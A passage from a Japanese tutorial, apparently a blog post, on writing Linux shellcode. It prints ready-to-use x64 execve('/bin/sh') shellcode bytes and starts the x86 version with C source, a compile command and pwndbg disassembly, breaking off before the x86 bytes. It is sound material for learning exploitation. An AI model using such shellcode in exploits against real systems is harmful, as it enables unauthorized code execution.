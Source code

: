 これで完成なので、またお借りしたスクリプトで取り出してみましょう。

```
$ objdump -M intel -d ./shellcode_x64 | grep '^ ' | cut -f2 | perl -pe 's/(\w{2})\s+/\\x\1/g'
```

```
\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05
```
これがx64(ELF)用のシェルスクリプトとなりました。

# x86(ELF)用シェルコードの作成
32bit用のシェルコードもついでに作成してしまいましょう。

まずは先程と同じCコードを利用します。
```
/* shell_exec_x86.c */
#include <unistd.h>

int main(void) {
	char *argv[] = {"/bin/sh", NULL};
	execve(argv[0], argv, NULL);
}
```
コンパイルオプションは以下のとおりです。
```
$ gcc -o shell_exec_x86 shell_exec_x86.c -static -m32
```

GDBで同じように`execve`をディスアセンブルして見てみます。
```
gdb -q shell_exec_x86

pwndbg> disassemble execve
   0x08054220 <+0>:     push   ebx
   0x08054221 <+1>:     mov    edx,DWORD PTR [esp+0x10]
   0x08054225 <+5>:     mov    ecx,DWORD PTR [esp+0xc]
   0x08054229 <+9>:     mov    ebx,DWORD PTR [esp+0x8]
   0x0805422d <+13>:    mov    eax,0xb
   0x08054232 <+18>:    call   DWORD PTR gs:0x10
   0x08054239 <+25>:    pop    ebx
   0x0805423a <+26>:    cmp    eax,0xfffff001
   0x0805423f <+31>:    jae    0x8058c30 <__syscall_error>
   0x08054245 <+37>:    ret
```

特に
```
    0x08054232 <+18>:    call   DWORD PTR gs:0x10
```
この部分が怪しいので、ここにブレイクポイントを貼って実行し、停止したらレジスタを見てみましょう。

```
pwndbg> b *0x08054232
pwndbg> r

Breakpoint 1, 0x08054232 in execve ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────
*EAX  0xb
*EBX  0x80b4018 ◂— '/bin/sh'
*ECX  0xffffd314 —▸ 0x80b4018 ◂— '/bin/sh'
 EDX  0
*EDI  1
*ESI  0x80e6ff4 (_GLOBAL_OFFSET_TABLE_) ◂— 0
*EBP  0xffffd328 —▸ 0xffffd438 ◂— 0
*ESP  0xffffd2f8 —▸ 0x80e6ff4 (_GLOBAL_OFFSET_TABLE_) ◂— 0
```